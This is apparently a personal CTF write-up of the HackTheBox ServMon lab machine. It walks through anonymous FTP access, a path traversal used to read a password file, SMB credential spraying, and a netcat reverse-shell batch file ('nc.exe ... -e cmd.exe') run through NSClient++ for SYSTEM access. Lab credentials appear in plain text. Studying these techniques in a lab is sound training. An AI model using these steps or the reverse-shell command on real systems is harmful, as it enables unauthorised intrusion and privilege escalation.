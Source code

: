 ```yaml
---
title: HackTheBox ServMon
author: Marius Kimmina
date: 2021-06-21 14:10:00 +0800
categories: [CTF, HackTheBox]
tags: [ftp, Windows, path traversal]
published: true
---
```



## 0x0 Introduction
Yet another Windows box. In this one  we use anonymous ftp access to find out about the existens of some internal files and then abuse a path traversal vulnerability to get hold of these files. Once we are on the box we use an exploit for NSClient++ to escalate privileges to System. 
![image](/assets/images/ServMon/servmon-pic.png "ServMon")

## 0x1 Getting a foothold and the user.txt

As always I started with a nmap scan (I left out some not all that relevant skript results to keep the output short)

```
$ nmap -sC -sV -oN nmap 10.10.10.184
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-07 11:52 CEST
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_01-18-20  12:05PM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
80/tcp   open  http
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5666/tcp open  nrpe?
6699/tcp open  tcpwrapped
8443/tcp open  ssl/https-alt
```
The first things to look at here are the Website, the anonymous login ftp, and maybe smb.  
The Website only gave us a login page with not much else to see tho, so lets not waste too much time there.
SMB did not allow anonymous login, which means without credentials we can't do much there either.
FTP does allow anonymous login tho and contained some interesting Information:
```
$ ftp 10.10.10.184
Connected to 10.10.10.184.
220 Microsoft FTP Service
Name (10.10.10.184:mindslave): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:05PM       <DIR>          Users
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:06PM       <DIR>          Nadine
01-18-20  12:08PM       <DIR>          Nathan
```
Going into the Nadine and Nathan directory we also got two .txt files the first is in Nadines directory, it's called Confidental.txt 

```
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards
```
The second one is in Nathans directory and is called 'Notes to do.txt' (to download this file via ftp u had to use \ for the whitespaces: get Notes\ to\ do.txt)
```
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```

I Found the NSClient that Nathan was talking about on 10.10.10.184:8443, for this I had to go take another look at the nmap result from before:
```
8443/tcp  open  https-alt
```

Upon clicking 'forgot password' on the NSClient application it told me run the following commands, what a goofy application. 
```
nscp web -- password --display
nscp web -- password --set new-password testing
```

looking up NSClient in searchsploit brought up a Priveledge escalation so this might be useful for getting the root flag latter on.  
That means once we are on the box we can get the password for NSClient++ easily and possibly get root that way, right now that's not very helpful tho, so lets move on.
Next thing that I looked for was anonymous access to the rpcclient but with no success
```
rpcclient -U "" -N 10.10.10.184                                                                                                                          
Cannot connect to server.  Error was NT_STATUS_ACCESS_DENIED
```

Now I started looking into this 'napster' thing thats running on the box on port 6699, seems to be some music download service, a very old one tho, there are only 2 public cve's for napster one from 1999 and one from 2000.


Tried to exploit the nrpe (part of nagios) that's running on the box, but no success

```
$ /usr/lib/nagios/plugins/check_nrpe -H 10.10.10.184
CHECK_NRPE: Error - Could not connect to 10.10.10.184. Check system logs on 10.10.10.184
```

So, after all of this failed, I went back to the frontdoor of the box, the nvms-1000 running on port 80. It turns out that this thing has a 'path traversal' vulnerability, and since we know that nathan has a 'Passwords.txt' file on his desktop, that comes in very handy.  
I send a request to the application intercepted it with burp and used the repeater to find the 'passwords.txt' file.

![image](/assets/images/ServMon/Burp-path-traversal.png "path traversal")

Now I have a few possible passwords:
```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

none of these worked on nvms-1000 nor on NSClient++ but trying them out on smb gave me a hit:

```
$ crackmapexec smb 10.10.10.184 -u Nathan -p pw.txt 
SMB         10.10.10.184    445    SERVMON          [*] Windows 10.0 Build 18362 x64 (name:SERVMON) (domain:SERVMON) (signing:False) (SMBv1:False)                         
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE                                                            
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE                                                       
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE                                                            
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE                                                              
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE                                                         
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE                                                          
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE

$ crackmapexec smb 10.10.10.184 -u Nadine -p pw.txt                                                                                 
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE                                                            
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE                                                       
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE                                                            
SMB         10.10.10.184    445    SERVMON          [+] SERVMON\Nadine:L1k3B1gBut7s@W0rk
```

```
$ smbmap -u Nadine -p 'L1k3B1gBut7s@W0rk' -H 10.10.10.184 
[+] IP: 10.10.10.184:445        Name: 10.10.10.184                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```

And it also worked for as Nadines ssh password, which gave us the user.txt
```
nadine@SERVMON C:\Users\Nadine\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 728C-D22C

 Directory of C:\Users\Nadine\Desktop

08/04/2020  22:28    <DIR>          .
08/04/2020  22:28    <DIR>          ..
23/05/2020  10:23                34 user.txt
```

# 0x02 Getting the root.txt
Now that we are logged in as Nadine we can get the password for the nsclient++ instance that we have discovered before
```
nadine@SERVMON C:\>"Program Files\NSClient++\nscp.exe" web -- password --display
Current password: ew2x6SsGTxjRwXOT
```
Because the page is only accessible from localhost we had to use ssh port forwarding to access the nsclient++ from our maschine. 
```
$ ssh -L 8443:127.0.0.1:8443 Nadine@10.10.10.184
```


Next, there are 2 things we need to copy over to the ServMon maschine, first a bat file with the following content to execute netcat:

```
@echo off
c:\temp\nc.exe 10.10.14.103 9001 -e cmd.exe
```

And of course the nc.exe itself, to bring both of these over to ServMon I used scp:

```
$ scp boese.bat nadine@10.10.10.184:/temp
$ scp nc.exe nadine@10.10.10.184:/temp
```

Now we configure the NSClient++ to run our boese.bat file, and since NSClient++ has to run with root or system privileges, this will give us a shell as System.

![image](/assets/images/ServMon/nsclient-script.png "NSClient++")

Once you have that configured you hit Control -> Reload, wait a second or two and you will have your shell as System

![image](/assets/images/ServMon/servmon-system.png "We are system")
